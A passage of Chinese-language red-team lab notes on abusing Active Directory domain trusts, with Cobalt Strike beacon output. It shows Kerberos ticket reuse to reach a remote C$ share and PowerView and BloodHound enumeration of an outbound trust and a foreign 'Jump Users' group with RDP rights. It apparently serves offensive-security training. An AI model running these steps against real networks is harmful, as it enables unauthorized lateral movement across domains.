 beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```


# One-Way (Outbound)

如果域A单向信任域B，那么B可以访问A的资源，A理论上应该不可以访问域B的资源。这一章讨论域A如何在这一前提下访问域B

一个方法是域信任的相反方向上创建的 SQL Server 链接（参考MS SQL Servers那一章）

另一个方法是通过 RDP 驱动器共享（ RDP drive sharing）

cyberbotic.io（上面例子里的A域）对zeropointsecurity.local（上面例子里的B域）有出站信任关系
```
beacon> powershell Get-DomainTrust -Domain cyberbotic.io

SourceName      : cyberbotic.io
TargetName      : zeropointsecurity.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM
```


使用```Get-DomainForeignGroupMember```表明有一个```Jump Users```的用户组
```
beacon> powershell Get-DomainForeignGroupMember -Domain cyberbotic.io

GroupDomain             : cyberbotic.io
GroupName               : Jump Users
GroupDistinguishedName  : CN=Jump Users,CN=Users,DC=cyberbotic,DC=io
MemberDomain            : cyberbotic.io
MemberName              : S-1-5-21-3022719512-2989052766-178205875-1115
MemberDistinguishedName : CN=S-1-5-21-3022719512-2989052766-178205875-1115,CN=ForeignSecurityPrincipals,DC=cyberbotic,DC=io
```

BloodHound 将显示```Jump Users```对EXCH-1和SQL-1这两台机器有RDP权限

![alt jump](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-trusts/jump-users-rdp.png?width=1920)

Get-DomainGPOUserLocalGroupMapping 和 Find-DomainLocalGroupMember 可以显示和上面一样的结果

```
beacon> powershell Get-DomainGPOUserLocalGroupMapping -Identity "Jump Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
